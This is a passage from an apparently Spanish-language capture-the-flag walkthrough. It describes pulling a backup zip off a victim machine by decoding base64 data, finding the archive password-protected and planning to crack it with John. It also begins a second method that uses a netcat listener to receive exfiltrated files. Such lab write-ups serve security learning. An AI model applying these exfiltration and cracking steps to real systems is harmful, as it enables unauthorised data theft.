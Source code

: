 Copiamos la data y creamos un archivo en nuestra máquina, ahí pegaremos la data copiada y lo guardaremos:
```bash
nano Backup
Pegar y guardar
```

Ahora debemos convertirlo en un archivo **.zip**, para esto, ocupamos la kit de herramientas **Moreutils** de la cual utilizaremos **Sponge**, puedes descargarla desde tu terminal:
```bash
sponge                              
No se ha encontrado la orden «sponge», pero se puede instalar con:
apt install moreutils
¿Quiere instalarlo? (N/y)y
apt install moreutils
...
```

Y ya podremos convertir la data en el archivo **.zip**, cámbiale el nombre al archivo también:
```bash
base64 -d Backup | sponge data

ls
Backup  data

file data               
data: Zip archive data, at least v1.0 to extract, compression method=store

mv data BackUp.zip
```

Por último, abre el archivo con la herramienta **unzip**:
```bash
unzip BackUp.zip         
Archive:  BackUp.zip
   creating: var/www/html/assets/
[BackUp.zip] var/www/html/favicon.ico password: 
password incorrect--reenter:
```
Bien, nos esta pidiendo una contraseña, es momento de utilizar a **John**.

<br>

<h3 id="ZIP2">Forma 2: Obteniendo Archivo .ZIP con netcat</h3>

Podemos leer el contenido del archivo **.zip** (o de cualquier otro archivo) y enviar ese contenido que se esta leyendo a traves de una **netcat** hacia nuestra máquina.

Vamos a intentarlo por pasos:

* Levanta una **netcat** indicando que lo que le llegue lo guarde en un archivo tipo **.zip**, puedes ocupar el mismo nombre que tiene el archivo **.zip** de la máquina víctima.
```bash
nc -nvlp 4433 > backup.zip
listening on [any] 443 ...
```
